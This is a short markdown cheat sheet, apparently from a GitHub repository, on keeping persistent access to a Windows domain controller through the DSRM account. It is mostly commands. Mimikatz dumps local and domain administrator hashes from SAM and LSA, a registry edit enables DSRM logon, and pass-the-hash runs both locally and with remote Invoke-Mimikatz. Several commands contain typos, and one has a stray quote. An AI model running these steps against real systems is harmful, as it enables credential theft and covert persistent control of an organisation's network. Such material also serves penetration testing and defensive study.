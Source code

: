# Domain Persistance - DSRM

Directory Service Restore Mode (DSRM) , every `Local Administrator` on Domain Controller `DC` is named `Administrator` account , this Administrator is called DSRM account and DSRM password is set when a DC is promoted.

So it is possible to perfrom `Pass The Hash` attack after extracting NTLM hash of Local Administrator account , local administrator password is just a backup password if something goes wrong ,usually local administrator isn't used by DC

## Using mimikatz.exe
```
privilege:debug (to see privileges)
token::elevate  (to become NT AUTHORITY\SYSTEM)
```

### Extracting Local Administrator password hash
```
lsadump::sam
```

### Extracting Domain Administrator password hash

```
lsadump::lsa /patch
```

By default DSRM logon is disbaled , value is set to 0 , set the value to 2

```
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbos
```

if this entry doesn't exist , we can create it 

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
```

Then 

```
sekurlsa::pth /user:Administrator /domain:dominname /ntlm:ntlm_hash_of_local_admin
```

## Using mimikatz powershell

This is for local administrator

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam""' -Computername computername 
```

This is for domain admin

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername computername
```

now performing pass the hash

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:domainname /user:Administrator /ntlm:local_admin_hash /run:powershell.exe"'
```


```
Enter-PSsession -Computername computer
```